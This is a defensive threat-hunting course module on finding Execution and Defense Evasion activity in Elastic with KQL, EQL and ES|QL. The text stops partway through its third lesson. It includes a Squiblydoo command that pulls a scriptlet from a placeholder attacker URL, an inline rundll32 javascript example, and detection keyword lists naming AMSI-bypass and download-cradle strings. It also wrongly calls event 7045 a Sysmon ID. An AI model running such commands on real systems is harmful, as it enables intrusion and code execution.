







# L2 Module — Hunting Process and File Events: Execution and Defense Evasion (Elastic + Kibana)

> **Audience:** L2 hunter who has completed L2 M1 (PEAK) and L2 M2 (KQL/EQL/ES|QL fundamentals).
> **Stack:** Elastic Stack 8.x — Elastic Agent endpoint integration, Winlogbeat + Sysmon, native Windows Security log. **No Defender/KQL.**
> **Depth bar:** BTL1+ / SANS GCIH+. Approx. 9,000 words across 4 reading lessons.

## Table of Contents

- **R1.** Process-event data plane in Elastic + the ECS field reference for hunters
- **R2.** Execution (TA0002) — top techniques and their EQL + ES|QL fingerprints
- **R3.** Defense Evasion (TA0005) — top techniques and their fingerprints
- **R4.** Statistical / anomaly hunts in ES|QL + cross-source pivots + worked capstone
- **Q1–Q4.** Quiz seeds (single-choice / multi-select / true-false / short-answer)
- **Author hand-off notes** — gaps to verify (Sysmon versioning, ECS drift, LOLBAS quarterly refresh)

---

## R1 — Process-event data plane in Elastic + the ECS field reference for hunters

### Why this lesson exists

Before you can hunt, you must know what you are looking at. Two analysts running the same KQL query can get different results on the same SOC if their indices are populated by different shippers. The Elastic ecosystem has converged on the **Elastic Common Schema (ECS)**, but the journey is incomplete: process events still reach Elasticsearch through three substantially different pipelines, each with its own quirks, blind spots, and field-name drift. As an L2 hunter you must know which pipeline produced the document in front of you, what it sees that the others miss, and how to pivot between them without losing context.

This lesson defines the three sources, walks you through the high-value ECS fields, and ends with a worked broad-to-narrow hunt using KQL, EQL, and ES|QL on the **same** question.

### The three process-event pipelines



**Pipeline 1 — Elastic Agent + Endpoint Integration (`logs-endpoint.events.*`).**
This is Elastic's native EDR. The Endpoint integration loads a Windows kernel driver that produces ECS-compliant events directly. The schema is the gold standard: `process.entity_id` is populated and stable, `process.parent.entity_id` is correct, `process.code_signature.*` is fully filled in, and the data streams are pre-split by event type — `process-*`, `file-*`, `library-*`, `registry-*`, `network-*`. If your tenant has the Endpoint integration deployed, prefer this source for nearly all process hunts.

**Pipeline 2 — Winlogbeat shipping Sysmon (`winlogbeat-*`).**
Sysmon (System Monitor from Sysinternals) is a free, configurable kernel driver that emits richly structured events to the `Microsoft-Windows-Sysmon/Operational` channel. Winlogbeat reads those events and ships them. The `winlogbeat-sysmon` ingest pipeline does ECS mapping, but the field coverage is **not 1:1** with the Endpoint integration: `process.code_signature.trusted` is sometimes absent, `process.entity_id` is the Sysmon `ProcessGuid` (compatible but stringified differently across Sysmon versions), and `event.action` values are Sysmon-flavoured (`network-connection`, `process-started`, `image-loaded`).

**Pipeline 3 — Native Windows Security log via Winlogbeat (`winlogbeat-*`).**
The kernel-audit feed. Provides Event ID 4688 (process creation), 4689 (process termination), 4624/4625 (logon), 4697/7045 (service installation), 1102 (audit log cleared). Schema is patchy: `event.code` is reliable but `process.command_line` requires the *Audit Process Creation* policy with command-line auditing enabled (off by default on most builds). Without it, 4688 lacks command line — a common operational gap.

> **Hunter heuristic:** If the document has `data_stream.dataset: endpoint.events.process`, you are on Pipeline 1. If `data_stream.dataset: windows.sysmon_operational` (or `event.provider: Microsoft-Windows-Sysmon`), Pipeline 2. If `event.code: "4688"` and provider is `Microsoft-Windows-Security-Auditing`, Pipeline 3.

### The ECS field reference for process events

The fields below are the **load-bearing** ones for L2 process hunting. Memorise them. Anything you cannot recall in five seconds will slow your triage.

| Field | What it carries | Source coverage |
|---|---|---|
| `process.name` | Image basename (`powershell.exe`) | All three |
| `process.executable` | Full path (`C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe`) | All three |
| `process.command_line` | Full command line (raw) | Endpoint, Sysmon, 4688 (if audited) |
| `process.args` | Tokenised argv array | Endpoint, Sysmon |
| `process.pid` | OS-assigned PID (recyclable) | All three |
| `process.entity_id` | Cross-event stable handle (Endpoint UUID or Sysmon ProcessGuid) | Endpoint, Sysmon |
| `process.parent.name` | Parent image basename | All three |
| `process.parent.entity_id` | Stable parent handle (use this, NOT `process.parent.pid`) | Endpoint, Sysmon |
| `process.parent.command_line` | Parent's command line | Endpoint, Sysmon (4688 partial) |
| `process.code_signature.subject_name` | Authenticode subject CN | Endpoint, Sysmon (recent) |
| `process.code_signature.trusted` | Boolean — chains to a trusted root | Endpoint primarily |
| `process.code_signature.status` | Status string (`trusted`, `errorUntrustedRoot`, `errorExpired`) | Endpoint, Sysmon |
| `process.hash.sha256` | SHA-256 of image | Endpoint, Sysmon |
| `process.working_directory` | CWD at start | Endpoint, Sysmon |
| `user.name` | Effective user | All three |
| `user.domain` | Domain | All three |
| `event.action` | Verb (`start`, `end`, `process-started`) | All three (varies) |
| `event.category` | `["process"]`, `["file"]`, `["registry"]` | All three |
| `event.code` | Numeric (`1` Sysmon, `4688` Security, internal codes for Endpoint) | All three |
| `event.provider` | `Microsoft-Windows-Sysmon` etc. | Sysmon, Security |
| `host.name` | Endpoint hostname | All three |
| `host.os.name` | OS family | All three |
| `agent.type` | `endpoint`, `winlogbeat` | All three |

### `event.action` and `event.code` — the verb fields

When pivoting between pipelines, the **verb** field changes name and value. Knowing this saves you from missed hits.



**Tip:** when authoring rules that must work across both Endpoint and Sysmon tenants, use *category* + *type* rather than *code*: `event.category: "process" and event.type: "start"` matches both sources cleanly.

### Files, libraries, registry — the sibling indices

For an Execution / Defense-Evasion hunter, **process is necessary but not sufficient**. Many techniques only show up cleanly in the sibling streams:

- `logs-endpoint.events.file-*` — file create / rename / delete / modify. Critical for T1070.004 file deletion, T1070.006 timestomp (look for `file.created` < `file.accessed`), T1027 packing residue.
- `logs-endpoint.events.library-*` — DLL load events. Critical for T1574 DLL search-order hijack (sibling DLL next to `process.executable`), T1218 Squiblydoo (rundll32 → suspicious export), T1055 reflective load (load with no on-disk file).
- `logs-endpoint.events.registry-*` — Run keys, Service\\ImagePath, IFEO Debugger, AMSI provider COM hijack. Critical for T1547 persistence and T1112 modify registry.

When using Sysmon, those map to event codes 11 (file create), 7 (image load), 13 (registry value set), 12 (registry key/value create-delete), 14 (registry key/value rename).

### Cross-source pivots — the `process.entity_id` trick

`process.pid` is *recyclable* — after a process exits, Windows can reuse the PID within seconds. **Never** join across events on `process.pid` alone. Use `process.entity_id`. On the Endpoint integration this is a UUID per process lifetime; on Sysmon it is the `ProcessGuid` (a hash of host + boot session + process create time + PID).

When pivoting from a process-event document to a registry or file document for the same process, prefer:

```kusto
process.entity_id: "{guid}" and host.id: "{host}"
```

The `host.id` qualifier is mandatory because GUIDs collide across hosts in pathological cases (rare but documented).

### The space-aware alerts index

Detection rules write to `.alerts-security.alerts-<space_id>` (default space → `.alerts-security.alerts-default`). When investigating a triggered alert, the alert document contains `kibana.alert.original_event.*` mirroring the source — meaning you can cross-pivot from the alert into the raw event stream by `kibana.alert.original_event.id` or by re-issuing the alert's query against the source index pattern.

### Worked broad-to-narrow hunt — encoded PowerShell, three languages

We will hunt `powershell.exe -EncodedCommand` invocations against the last 24 hours, in three steps.

#### Step 1 — KQL (broad, in Discover)

```kusto
event.category : "process"
  and event.type : "start"
  and process.name : ("powershell.exe" or "pwsh.exe")
  and process.command_line : (*encodedcommand* or *-enc *)
```

KQL is your free-text trawler. Use `:` for keyword fields, parentheses for OR groups, and wildcards sparingly — they break on analysed text fields. Note the leading space in `*-enc *` to avoid matching `--enc` accidentally inside a wider word.

#### Step 2 — EQL (sequence — encoded PowerShell *spawned by Office*)

```eql
sequence by host.id with maxspan=2m
  [process where event.type == "start"
     and process.name : ("winword.exe", "excel.exe", "outlook.exe", "powerpnt.exe")] by process.entity_id
  [process where event.type == "start"
     and process.name : ("powershell.exe", "pwsh.exe")
     and process.command_line : ("*-enc*", "*-encodedcommand*", "*frombase64string*")] by process.parent.entity_id
```

EQL's `sequence` joins the parent's `process.entity_id` to the child's `process.parent.entity_id`. The `with maxspan=2m` clause bounds the join. This is a near-perfect T1204.002 click-context fingerprint.

#### Step 3 — ES|QL (aggregation for triage)

```esql
FROM logs-endpoint.events.process-*
| WHERE event.action == "start"
    AND process.name IN ("powershell.exe", "pwsh.exe")
    AND TO_LOWER(process.command_line) LIKE "*-enc*"
| STATS host_count = COUNT_DISTINCT(host.name),
        first_seen = MIN(@timestamp),
        last_seen  = MAX(@timestamp),
        sample_cmd = VALUES(process.command_line)
  BY process.hash.sha256
| WHERE host_count <= 3
| SORT first_seen ASC
| LIMIT 50
```

ES|QL is your aggregation language. The `host_count <= 3` filter implements a rare-by-host heuristic — encoded PowerShell that runs on three or fewer hosts in your fleet is far more likely to be malicious than the dozens of hosts running scheduled, signed automation. We will revisit this pattern in R4.

### Worked pivot — from a process to its registry footprint

Suppose Q3 from the broad-to-narrow hunt above returned a single hit on host `WS-FIN-014` for an encoded PowerShell sequence. You want to know what that PowerShell process *touched* in the registry. The pivot:

```kusto
event.category : "registry"
  and host.name : "WS-FIN-014"
  and process.entity_id : "MzhmZjY3NDgtNzkwNi00NTk5LWFiMzAtMmU3MzFmYjk2NTNi"
  and @timestamp >= "2026-04-28T13:00:00Z" and @timestamp <= "2026-04-28T13:15:00Z"
```

Replace the GUID with the actual `process.entity_id` from the source hit. Add a 15-minute time window. The result is every Run-key write, every IFEO Debugger creation, every AMSI-provider COM registration that this single process performed. This is the single most powerful triage move in the entire L2 toolkit — it converts a behavioural lead into an enumerable list of artefacts you can hand to IR.

The same shape works against `logs-endpoint.events.file-*` (what files did the process create / delete / modify?), `logs-endpoint.events.library-*` (what DLLs did it load?), and `logs-endpoint.events.network-*` (what did it talk to?). Memorise the pivot pattern.

### A note on Kibana surfaces

Throughout this module we will reference three Kibana surfaces:

- **Discover** — for KQL trawls and ES|QL aggregations. The bar at the top toggles between KQL and ES|QL.
- **Security → Timeline** — for EQL sequences with the eventgraph view. Drag any field from the source document into the Timeline to scaffold the next query.
- **Security → Rules** — for promoting a tested EQL sequence to a detection rule. The rule type *EQL* accepts the same syntax you used in Timeline.

L2 hunters live in Timeline. Get comfortable with the keyboard shortcuts: `Ctrl+/` opens the query bar, `Ctrl+Enter` runs, the eventgraph view (button top-right) renders the `sequence` joins as a process tree.

### What you should be able to do after R1

- Identify which pipeline produced any process document by `data_stream.dataset` or `event.provider`.
- Recite the dozen load-bearing ECS fields without lookup.
- Pivot a single process across `process-*`, `file-*`, `library-*`, `registry-*` using `process.entity_id` + `host.id`.
- Move the same question between KQL (Discover), EQL (Timeline / detection rules), and ES|QL (Discover ES|QL mode / dashboards).
- Apply the *worked pivot* pattern from a single suspicious process hit to its registry, file, and library footprint within a bounded time window.

---

## R2 — Execution (TA0002): top techniques and their EQL + ES|QL fingerprints

### Why Execution is the hunter's favourite tactic

TA0002 is the moment an adversary's *intent* becomes *behaviour* on your endpoint. Every later step — Persistence, Privilege Escalation, Lateral Movement — depends on having executed something. From a detection-engineering point of view, Execution is dense with high-fidelity behavioural artefacts: command lines, parent-child relationships, signature anomalies, LOLBAS misuse. R2 walks the top techniques in the order you will encounter them in the wild and shows the KQL trawler, the EQL fingerprint, and the ES|QL triage aggregation for each.

### The Execution data plane in one diagram



### T1059.001 — Command and Scripting Interpreter: PowerShell

PowerShell is the most-abused interpreter on Windows because it ships preinstalled, has direct access to .NET and the Win32 API, and supports inline obfuscation. As a hunter you should know the **suspicious-PowerShell vocabulary** by heart:

| Token | What it implies |
|---|---|
| `-EncodedCommand`, `-enc`, `-e ` | Base64 payload — the loudest single signal |
| `-NoProfile`, `-nop` | Skipping `$Profile` — common in malware to avoid auditing hooks |
| `-ExecutionPolicy Bypass`, `-ep bypass`, `-exec bypass` | Disabling local script policy |
| `-WindowStyle Hidden`, `-w hidden`, `-w 1` | Suppressing the console |
| `-NonInteractive`, `-noni` | Non-TTY mode — automation or shellcode loader |
| `IEX`, `Invoke-Expression` | String-to-code (the canonical RCE primitive) |
| `DownloadString`, `DownloadFile`, `Invoke-WebRequest`, `Invoke-RestMethod` | Network fetch |
| `FromBase64String`, `[Convert]::FromBase64String` | Inline base64 decode |
| `AmsiUtils`, `amsiInitFailed`, `amsiSession` | Active AMSI bypass attempt |
| `[Reflection.Assembly]::Load`, `Assembly.Load` | In-memory .NET loader (T1620) |
| `Start-Process -Verb RunAs` | UAC elevation pivot |

#### KQL (Discover trawler)

```kusto
event.category : "process" and event.type : "start"
  and process.name : ("powershell.exe" or "pwsh.exe")
  and process.command_line : (
       *-enc* or *encodedcommand* or *-nop* or
       *iex(* or *invoke-expression* or *downloadstring* or
       *frombase64string* or *amsiutils* or *amsiinitfailed*
  )
```

#### EQL — the encoded-command fingerprint

```eql
process where event.type == "start"
  and process.name : ("powershell.exe", "pwsh.exe")
  and process.command_line : (
        "*-EncodedCommand*", "*-enc *", "* -e *",
        "*FromBase64String*", "*::Load(*",
        "*Invoke-Expression*", "*IEX(*",
        "*DownloadString*", "*Invoke-WebRequest*",
        "*amsiInitFailed*", "*AmsiUtils*"
  )
```

#### ES|QL — rare suspicious PowerShell by host

```esql
FROM logs-endpoint.events.process-*
| WHERE event.action == "start"
    AND process.name IN ("powershell.exe", "pwsh.exe")
| EVAL cmd = TO_LOWER(process.command_line)
| WHERE cmd LIKE "*-enc*"
     OR cmd LIKE "*frombase64string*"
     OR cmd LIKE "*downloadstring*"
     OR cmd LIKE "*iex(*"
     OR cmd LIKE "*amsiutils*"
| STATS hosts = COUNT_DISTINCT(host.name),
        users = VALUES(user.name),
        last  = MAX(@timestamp)
  BY process.parent.name, process.hash.sha256
| WHERE hosts <= 5
| SORT last DESC
```

### T1059.003 — Windows Command Shell

`cmd.exe` is rarely interesting on its own — it is a workhorse on every server. The *interesting* signals are:

- `cmd.exe /c` invoked **by Office** or **by an Internet-facing service account** (`w3wp.exe`, `sqlservr.exe`, `tomcat*`).
- Long command lines with `&` / `&&` / `|` chains assembling a payload (T1027.010 piggy-back).
- `cmd.exe /c <random-letters>.bat` from `%TEMP%` or `%PUBLIC%`.

```eql
process where event.type == "start" and process.name : "cmd.exe"
  and (
    process.parent.name : ("w3wp.exe", "sqlservr.exe", "tomcat*.exe", "java.exe", "winword.exe", "excel.exe", "outlook.exe")
    or process.command_line : ("*\\Temp\\*.bat", "*\\Public\\*.bat", "*\\AppData\\Local\\Temp\\*.cmd")
  )
```

### T1059.005 / .007 — VBS / JScript

Script hosts: `wscript.exe` and `cscript.exe`. JScript also rides through `mshta.exe` (covered under T1218.005) and via the `wscript.exe -e:jscript` flag.

```kusto
event.category : "process" and event.type : "start"
  and process.name : ("wscript.exe" or "cscript.exe")
  and process.command_line : (*\\Temp\\* or *\\AppData\\* or *\\Downloads\\* or *.vbs* or *.js* or *.jse* or *.wsf*)
```

The dominant phishing pattern is a `.zip` or `.iso` containing a `.lnk` that calls `wscript.exe payload.js`. The EQL sequence in T1204 covers it.

### T1204 — User Execution: the click-path EQL `sequence`

T1204.001 (malicious link) and T1204.002 (malicious file) both show up in process telemetry as **Office or browser spawning a script host**. The sequence below is the most reliable single rule body in the entire Execution kill-chain.



```eql
sequence by host.id with maxspan=2m
  [process where event.type == "start"
     and process.name : ("winword.exe", "excel.exe", "powerpnt.exe", "outlook.exe", "msaccess.exe", "visio.exe")] by process.entity_id
  [process where event.type == "start"
     and process.name : ("powershell.exe", "pwsh.exe", "wscript.exe", "cscript.exe",
                          "mshta.exe", "regsvr32.exe", "rundll32.exe", "cmd.exe",
                          "certutil.exe", "bitsadmin.exe", "msiexec.exe")] by process.parent.entity_id
```

### T1218 — Signed Binary Proxy Execution (LOLBAS)

The "living off the land" family — Microsoft-signed binaries abused as execution proxies. Hunting LOLBAS rests on three principles: (1) the binary is signed, so signature checks alone will not flag it; (2) the *parent* and the *command-line* are the discriminators; (3) the parent of LOLBAS abuse is rarely an interactive shell — it is Office, a script host, or a service.



#### T1218.001 — hh.exe (HTML Help)

`hh.exe` opens `.chm` files. A `.chm` can embed JavaScript that calls `WScript.Shell.Run`. Hunt:

```kusto
event.category: "process" and event.type: "start"
  and process.name: "hh.exe"
  and process.args: (*.chm* or *http*)
```

#### T1218.003 — cmstp.exe

Connection Manager Profile Installer. Abused via a malicious `.inf` containing a `[CommandSection]` with `RegisterOCXSection`. Always investigate any `cmstp.exe` invocation that points at a non-default INF in `%TEMP%` or `%APPDATA%`.

```eql
process where event.type == "start"
  and process.name : "cmstp.exe"
  and process.command_line : ("*\\Temp\\*", "*\\AppData\\*", "*/au *", "*ActiveX*")
```

#### T1218.005 — mshta.exe

`mshta.exe` runs `.hta` (HTML Application) files and accepts an inline `javascript:` URI. The single highest-fidelity hunt in this entire family:

```eql
process where event.type == "start"
  and process.name : "mshta.exe"
  and process.command_line : ("*javascript:*", "*vbscript:*", "*http*", "*https*", "*\\Temp\\*", "*.hta*")
```

#### T1218.007 — msiexec.exe

Most `msiexec.exe` is benign software install. The malicious shape is `/q /i http(s)://...` — install quietly from a remote URL.

```kusto
process.name: "msiexec.exe"
  and process.command_line: (*http* or *https*)
  and process.command_line: (*-q* or */q* or */quiet*)
```

#### T1218.010 — regsvr32.exe (Squiblydoo)

The classic AppLocker bypass. `regsvr32 /u /s /n /i:http://attacker/payload.sct scrobj.dll` registers a remote scriptlet COM object via `scrobj.dll`. The `/i:` flag with an HTTP URL is unique to abuse.

```eql
process where event.type == "start"
  and process.name : "regsvr32.exe"
  and process.command_line : ("*scrobj.dll*", "*/i:http*", "*/i:\\\\*", "*.sct*")
```

#### T1218.011 — rundll32.exe

Two abuse classes:
1. `rundll32.exe javascript:"\\..\\mshtml.dll,RunHTMLApplication "+...` — inline JS.
2. `rundll32.exe <suspicious.dll>,<export>` from `%TEMP%` or `%APPDATA%`.

```eql
process where event.type == "start"
  and process.name : "rundll32.exe"
  and (
    process.command_line : ("*javascript:*", "*RunHTMLApplication*", "*mshtml.dll*")
    or (process.args : "*\\Temp\\*" and process.command_line : "*,*")
    or (process.args : "*\\AppData\\*" and process.command_line : "*,*")
  )
```

### T1053.005 — Scheduled Task / schtasks.exe

`schtasks.exe /create` is the standard CLI for scheduled tasks. Look for tasks that run from non-standard paths or as SYSTEM, and pay extra attention to the `/xml` flag (XML-defined tasks bypass several visibility paths).

```eql
process where event.type == "start"
  and process.name : "schtasks.exe"
  and process.args : "*/create*"
  and process.command_line : ("*\\Temp\\*", "*\\Public\\*", "*\\AppData\\*", "*-EncodedCommand*", "*powershell*", "*/xml*")
```

For higher-confidence hunts, pair the `schtasks` command with the registry side: `logs-endpoint.events.registry-*` documents under `HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Schedule\\TaskCache\\Tree\\` show the actual task entries — the `Tasks` GUID maps to the file under `C:\\Windows\\System32\\Tasks\\`.

### T1569.002 — System Services: Service Execution (PsExec class)

PsExec, PaExec, RemCom, CSExec, SmbExec — all create a remote service to execute. The behavioural fingerprint is **Event ID 7045** (service installation) on the target combined with a service binary in `%SystemRoot%\\` or `\\\\.\\pipe\\`.

```kusto
data_stream.dataset: "windows.security" and event.code: "7045"
  and (winlog.event_data.ServiceFileName: (*PSEXESVC* or *PAExec* or *RemCom* or *.bat* or *cmd.exe* or *powershell*)
       or winlog.event_data.ServiceName: (*PSEXESVC* or *PAExec* or *RemCom*))
```

For the EQL sibling-stream version on Endpoint integration:

```eql
sequence by host.id with maxspan=30s
  [process where event.type == "start"
     and process.name : ("services.exe")] by process.entity_id
  [process where event.type == "start"
     and process.parent.name : "services.exe"
     and (process.executable : "*\\PSEXESVC*" or process.command_line : ("*pipe*", "*\\\\.\\pipe\\*"))]
```

### ES|QL triage aggregations for the whole TA0002 surface

Two triage queries you should keep in your snippets file.

**Most-active LOLBAS binaries in the last 24h:**

```esql
FROM logs-endpoint.events.process-*
| WHERE event.action == "start"
    AND @timestamp > NOW() - 24 hours
    AND process.name IN (
      "hh.exe","cmstp.exe","mshta.exe","msiexec.exe",
      "regsvr32.exe","rundll32.exe","installutil.exe",
      "odbcconf.exe","xwizard.exe","certutil.exe","bitsadmin.exe"
    )
| STATS executions = COUNT(*),
        hosts = COUNT_DISTINCT(host.name),
        sample = VALUES(process.command_line)
  BY process.name, process.parent.name
| SORT executions DESC
| LIMIT 50
```

**Office spawning a script host — last 7 days, ranked:**

```esql
FROM logs-endpoint.events.process-*
| WHERE event.action == "start"
    AND @timestamp > NOW() - 7 days
    AND process.parent.name IN ("winword.exe","excel.exe","powerpnt.exe","outlook.exe","msaccess.exe")
    AND process.name IN (
      "powershell.exe","pwsh.exe","wscript.exe","cscript.exe",
      "mshta.exe","regsvr32.exe","rundll32.exe","cmd.exe",
      "certutil.exe","bitsadmin.exe","msiexec.exe"
    )
| STATS firings = COUNT(*),
        hosts = COUNT_DISTINCT(host.name),
        last = MAX(@timestamp),
        cmds = VALUES(process.command_line)
  BY process.parent.name, process.name
| SORT firings DESC
```

### Common false positives — and how to suppress them cleanly

Hunting Execution at scale means living with a steady stream of benign-looking automation that *looks* like the malicious patterns. Suppression should be additive (carve out specific known-good shapes) rather than subtractive (broad `NOT process.parent.name`). The five most common in mature SOCs:

1. **Configuration management agents** — Ansible, Puppet, Chef, SCCM, Intune. They legitimately run encoded PowerShell from a service account. Whitelist by `user.name` *and* SHA-256 of the PowerShell host script's parent binary, never just by user name.
2. **Vendor installer wrappers** — many enterprise installers spawn `cmd.exe /c msiexec /q /i <local path>`. Distinguish by `process.command_line` containing a *local* path, not `http://`.
3. **Office macros for legitimate finance/HR workflows** — surfaced periodically in regulated firms. Document the exact macro hash and parent path before suppressing.
4. **Browser-driven download tooling** — `Invoke-WebRequest` invocations from `pwsh.exe` running interactively under a help-desk account. The discriminator is `process.parent.name == "explorer.exe"` plus `user.name` matching IT.
5. **PsExec by IT for legitimate remote admin** — distinguish by source-host (jumpbox SHA-256) and target-host (server tier). Not all 7045 events are bad.

Document each suppression as a tuning entry with rationale, owner, and re-review date. Suppression debt accumulates silently and degrades hunt quality if not periodically pruned.

### MITRE technique → ECS field crosswalk for TA0002

A quick lookup card the learner should print or pin:

| Technique | Discriminating ECS field(s) | Index |
|---|---|---|
| T1059.001 | `process.name`, `process.command_line` | `logs-endpoint.events.process-*` |
| T1059.003 | `process.name`, `process.parent.name`, `process.command_line` | same |
| T1059.005 / .007 | `process.name`, `process.args` | same |
| T1204.002 | `process.parent.name` (Office), `process.name` (script host) — sequence | same |
| T1218.010 | `process.name == "regsvr32.exe"`, `process.command_line` (`/i:http*`, `scrobj.dll`) | same |
| T1218.011 | `process.name == "rundll32.exe"`, `process.command_line` (`javascript:`) | same |
| T1053.005 | `process.name == "schtasks.exe"`, `process.args` (`/create`) | same + `registry-*` for TaskCache |
| T1569.002 | `event.code: 7045` + `process.parent.name == "services.exe"` | `winlogbeat-*` + `process-*` |

### What you should be able to do after R2

- Recite the suspicious-PowerShell vocabulary.
- Choose KQL vs EQL vs ES|QL deliberately for an Execution hunt.
- Write a one-shot Office → script-host EQL `sequence` from memory.
- Identify Squiblydoo and rundll32-javascript by command-line shape.
- Pair Sysmon EID 7045 with process telemetry for PsExec-class hunts.
- Author additive suppression rules without weakening the underlying detection.

---

## R3 — Defense Evasion (TA0005): top techniques and their fingerprints

### Why TA0005 is the *most underhunted* tactic

Defense Evasion is the tactic that converts a noisy intrusion into a quiet one. Most SOCs hunt it last because the techniques are subtle and the false-positive rate is higher than for Execution. The reward is disproportionately large: a single high-fidelity TA0005 hit (a wevtutil clear, an `sc stop Sense`, an unsigned `lsass.exe`) is *almost always* malicious, and it is *almost always* late-stage — meaning catching it shortens dwell time dramatically.

```mermaid
flowchart TD
  TA0005[TA0005 Defense Evasion] --> T1027[T1027 Obfuscated/Compressed Files]
  TA0005 --> T1070[T1070 Indicator Removal]
  TA0005 --> T1562[T1562 Impair Defenses]
  TA0005 --> T1036[T1036 Masquerading]
  TA0005 --> T1112[T1112 Modify Registry]
  TA0005 --> T1140[T1140 Deobfuscate/Decode]
  TA0005 --> T1497[T1497 Virtualization/Sandbox Evasion]
  T1027 --> T1027_002[.002 Software Packing]
  T1027 --> T1027_010[.010 Command Obfuscation]
  T1070 --> T1070_001[.001 Clear Windows Logs]
  T1070 --> T1070_003[.003 Clear PS History]
  T1070 --> T1070_004[.004 File Deletion]
  T1070 --> T1070_006[.006 Timestomp]
  T1562 --> T1562_001[.001 Disable AV/EDR]
  T1562 --> T1562_002[.002 Disable Auditing]
  T1562 --> T1562_004[.004 Disable Firewall]
  T1562 --> T1562_009[.009 Safe Mode Boot]
  T1036 --> T1036_001[.001 Invalid Signature]
